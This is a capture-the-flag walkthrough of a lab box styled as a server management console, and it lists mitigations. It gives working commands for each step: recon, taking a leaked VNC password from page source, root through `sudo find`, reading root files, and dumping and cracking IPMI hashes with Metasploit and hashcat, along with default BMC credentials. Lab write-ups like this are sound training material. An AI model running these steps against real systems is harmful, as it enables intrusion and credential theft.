

| | |
|---|---|
| **Box** | Lights Out |
| **Difficulty** | Easy |
| **OS** | Linux |

> **Lights Out** is an easy Linux box themed around a fake server **Lights-Out / BMC (iDRAC-style) management console**. The whole gimmick is hidden in plain sight: a "Virtual Console" that is really a **VNC** session, the password leaked in the web source, and a one-line `sudo` misconfiguration for root. There is also a fully working **IPMI RAKP hash-dump (CVE-2013-4786)** path that bypasses the box's `fail2ban` entirely.
{: .prompt-info }

> **Mitigations.**
> - Never embed VNC/console passwords in client URLs or page source; require real authentication for the virtual console.
> - Treat VNC as sensitive: strong unique password (remember the 8-byte truncation), TLS, and network restriction.
> - Disable IPMI **Cipher Suite 0** and restrict `623/udp`; IPMI 2.0 RAKP hash disclosure (CVE-2013-4786) is unfixable at the protocol level — segment the management network.
> - Scope `sudo` precisely: `NOPASSWD: /usr/bin/find` is equivalent to giving the user root (GTFOBins).
> - Use high-`rounds` *and* a non-guessable password; KDF cost doesn't help if the password is in rockyou.
{: .prompt-warning }

## Attack chain



> **fail2ban warning.** This box runs `fail2ban` with a low retry threshold. Hammering SSH (or VNC) with bad auth gets your VPN IP **dropped** mid-engagement. Plan your auth attempts; don't spray.
{: .prompt-danger }

---

## Recon

```bash
nmap -sC -sV -oN quick.nmap 192.168.5.15
nmap -p- -sV -T4 -oN full.nmap 192.168.5.15
```

| Port | Service | Detail |
|------|---------|--------|
| 22/tcp | SSH | OpenSSH 9.6p1 Ubuntu — **fail2ban guarded** |
| 80/tcp | HTTP | Caddy — *"Lights Out Manager 9"* (static BMC-themed UI) |
| 5900/tcp | VNC | RFB protocol 3.8 |
| 6080/tcp | websockify | noVNC backend (proxied by `/novnc` on :80) |
| 623/udp | IPMI/RMCP | **UP** (ASF presence pong) — the theme is real |

Two parallel ways in: the **web→VNC** path (intended) and the **IPMI RAKP** path (CVE-2013-4786). Both are documented below.

---

## The web is a decoy (with one real secret)

Port 80 serves a polished iDRAC/BMC clone (`BELLTECH · LOM9 Enterprise · ServeEdge B740`). The "login" form is fake — it's just `method=get action=/dashboard.html`, no server-side auth, and Caddy returns `200` for every path (SPA fallback), so directory brute-forcing is pure noise.

> I gobuster'd this box so hard it found 14,000 directories, every single one of them imaginary. Caddy has the self-esteem of a golden retriever — every URL is a good URL, yes it is. Also the login form does `method=get`, so I typed `root` / `hunter2` and watched my password sail straight into the URL bar for the whole neighborhood to admire. The only thing it authenticates is your faith in 2009-era web design.

The real secret lives in the **Virtual Console** page. The noVNC "launch" link auto-connects with the VNC password embedded right in the query string:

```bash
curl -s http://192.168.5.15/console.html | grep -oE '/novnc[^"]+'
# /novnc/vnc.html?autoconnect=true&resize=scale&path=websockify&password=45dqdmDCaENTH6
```

**VNC password: `45dqdmDCaENTH6`** (note: VNC truncates passwords to 8 bytes, so the effective key is `45dqdmDC`).

> They gave this password 14 characters of effort and VNC reads the first 8, then bins the rest. Six characters of purely decorative paranoia — the security equivalent of a *Beware of Dog* sign hung on a goldfish tank.

{: w="400" }

---

## Foothold — the VNC "virtual console" is a live shell

Connect over VNC — use a proper RFB 3.8 client or the noVNC page on :80:

```bash
# headless screenshot of the console
vncdo -s 192.168.5.15::5900 -p '45dqdmDCaENTH6' pause 3 capture console.png
```

> Word to the wise: `vncdotool` defaults to RFB **3.3**, fails auth against a 3.8 server, and after ~5 swings TigerVNC slams the door — *"Too many security failures"* — with a cooldown that doubles each time, completely independent of fail2ban. I personally enraged two separate lockout timers before breakfast. Connect ONCE, cleanly, like a civilized person.

The console drops straight into a logged-in shell as **`bmcuser@bmc-01`** — no OS login required. That's the foothold.


You can drive the shell with VNC keystrokes:

```bash
vncdo -s 192.168.5.15::5900 -p '45dqdmDCaENTH6' type "id; hostname" key enter pause 2 capture out.png
# uid=1001(bmcuser) gid=1001(bmcuser) ... bmc-01
```

> Driving a shell through `vncdo type` is like texting with oven mitts on — it drops characters on long commands and detonates on embedded double-quotes. Keep typed commands short, single-quoted, and exfil any long output by writing it to the web root and `curl`-ing it back.

---

## Privilege escalation — `sudo find` (GTFOBins)

```bash
sudo -n -l
# User bmcuser may run the following commands on bmc-01:
#     (root) NOPASSWD: /usr/bin/find
```


> The entire box is cosplaying as a hardened out-of-band management controller — IPMI, RAKP, cipher suites, the lot — and then leaves `find` sitting in the sudoers file like a screen door on a submarine.

`find` on [GTFOBins](https://gtfobins.github.io/gtfobins/find/#sudo) gives instant root:


_GTFOBins `find` entry: `find . -exec /bin/sh \; -quit` spawns a shell with `find`'s privileges (root, via sudo)._

```bash
sudo /usr/bin/find . -exec /bin/sh \; -quit
# id -> uid=0(root)
```

You don't even need an interactive shell — `find`'s `-exec` is a root primitive on its own. For example, read any root-only file:

```bash
sudo /usr/bin/find /root/flag.txt -exec cat {} +
```

---

## The flag mechanic

`/root/flag.txt` doesn't contain a flag — it contains the rules:


```
=== Lights Out Manager · Root Flag ===
Congrats — you escalated from the LOM tech console.
The flag is NOT in this file. The flag is the root account's cleartext password.
Capture /etc/shadow, crack the $6$ line offline (hashcat -m 1800),
and submit the cleartext pw to the Black Hash market to claim the lab-coin bounty.
```

---

## Alternate path — IPMI RAKP hash dump (CVE-2013-4786)

The SEL log and the theme heavily hint at IPMI, and `623/udp` really is open. Confirm with a raw ASF presence ping (no tools/root needed):

```bash
python3 -c "import socket;p=bytes([0x06,0,0xff,6,0,0,0x11,0xbe,0x80,0,0,0]);s=socket.socket(2,2);s.settimeout(4);s.sendto(p,('192.168.5.15',623));print(s.recvfrom(1024)[0].hex())"
# 0600ff06000011be40000010...8100...  (0x40 = presence pong, 0x81 = IPMI)
```

IPMI 2.0's RAKP handshake leaks an HMAC of each user's password to **unauthenticated** clients — crackable offline, and it never touches `fail2ban`:

```bash
msfconsole -q -x "use auxiliary/scanner/ipmi/ipmi_dumphashes; set RHOSTS 192.168.5.15; set OUTPUT_HASHCAT_FILE ipmi.hashes; run; exit"
# strip the leading 'IP user:' so each line is salt:hash
sed 's/^[^ ]* [^:]*://' ipmi.hashes > ipmi.hc
hashcat -m 7300 ipmi.hc /usr/share/wordlists/rockyou.txt
```

Cracked BMC accounts:

| User | Password |
|------|----------|
| `admin` | `admin` |
| `root` | `calvin` *(the classic Dell iDRAC default — somewhere a sysadmin from 2014 is smiling)* |
| `ADMIN` | `ADMIN` |

These are **BMC/LOM** creds, not the OS root password (and they are **not** reused on SSH — I knocked twice with the VNC password before remembering fail2ban keeps a guest list and I'm not on it). They flavour the box and are an alternate way to reason about it, but the VNC console is the cleaner foothold.
